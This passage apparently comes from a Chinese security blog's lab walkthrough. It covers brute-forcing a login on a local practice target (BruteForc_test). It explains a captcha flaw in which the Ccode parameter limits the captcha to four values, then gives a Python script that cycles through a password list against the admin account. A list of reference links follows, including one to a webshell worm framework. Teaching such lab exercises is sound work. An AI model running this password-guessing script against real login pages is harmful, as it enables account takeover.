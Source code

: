 再次`reapter`看一下，发现对验证码使用的次数有限制了：

![][10]

![][11]

查看源码发现，除了前端代码，还有一个验证码文件

![][12]

并且验证码文件的参数是由前端传入的

![][13]

那我们测试下`Ccode`参数，发现特殊情况

当参数为`111`时，得出的验证码为`1`，`11`，`111`，`1111`四种情况中的一种

![][14]

![][15]

![][16]

同时，这里验证码输入错误后，并没有重置验证码，

只有在验证码输入正确，密码错误时，才会重置验证码。所以这里就存在了验证码可以被爆破的情况。

爆破脚本如下：

```
import requests

code_url = 'http://127.0.0.1/BruteForc_test/yzm2.php?Ccode=111'
login_url = 'http://127.0.0.1/BruteForc_test/LoginMid2.php'
passwd_list = open('./10-million-password-list-top-1000.txt',
                   'r').read().splitlines()
for passwd in passwd_list:
    r = requests.session()
    r.get(code_url)
    for i in range(0, 4):
        number_list = ['1', '11', '111', '1111']
        data = {
            'name': 'admin',
            'password': passwd,
            'yzm': number_list[i]
        }
        html = r.post(login_url, data=data)
        if '登陆成功' in html.text:
            print("attack success!password:{}".format(passwd))
            exit()
        else:
            break
```


[1]: https://github.com/3sNwgeek/BruteForc_test
[2]: https://github.com/3sNwgeek/awd_worm_phpwebshell_framework
[3]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_140653.png
[4]: https://soapffz.com/462.html#menu_index_5=true
[5]: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000.txt
[6]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_140829.png
[7]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141009.png
[8]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141026.png
[9]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141108.png
[10]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141410.png
[11]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_141421.png
[12]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_171924.png
[13]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_171914.png
[14]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_172453.png
[15]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_172515.png
[16]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_172535.png
[17]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_180859.png
[18]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_181301.png
[19]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200202_181617.png
[20]: https://digi.bib.uni-mannheim.de/tesseract/tesseract-ocr-setup-4.00.00dev.exe
[21]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_134932.png
[22]: https://www.lanzous.com/i1z2s3e
[23]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_151726.png
[24]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_151845.png
[25]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152521.png
[26]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152032.png
[27]: https://pan.baidu.com/s/1gxFdk?fid=943060932816851
[28]: https://pan.baidu.com/s/1jGJU2nO?fid=3392384981
[29]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152305.png
[30]: https://t.me/soapffz
[31]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200203_152748.png
[32]: https://github.com/bit4woo/reCAPTCHA/releases/latest
[33]: https://github.com/c0ny1/captcha-killer
[34]: http://gv7.me/articles/2019/burp-captcha-killer-usage/
[35]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_105621.png
[36]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_105630.png
[37]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_110238.png
[38]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_110546.png
[39]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111128.png
[40]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111620.png
[41]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111725.png
[42]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_112922.png
[43]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_111934.png
[44]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160513.png
[45]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_113155.png
[46]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_113514.png
[47]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_113404.png
[48]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160657.png
[49]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160731.png
[50]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160743.png
[51]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_160902.png
[52]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_162328.png
[53]: https://img.soapffz.com/archives_img/2020/02/02/archives_20200204_162405.png
[54]: http://www.7ten7.top/2019/09/18/2019-09-18-%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E9%9D%B6%E5%9C%BA/
[55]: https://mp.weixin.qq.com/s/2qe1Sx3IV2LHwomMSTacdg
[56]: https://mp.weixin.qq.com/s/lKAp0A4qQuh0JP9qQnPvcg
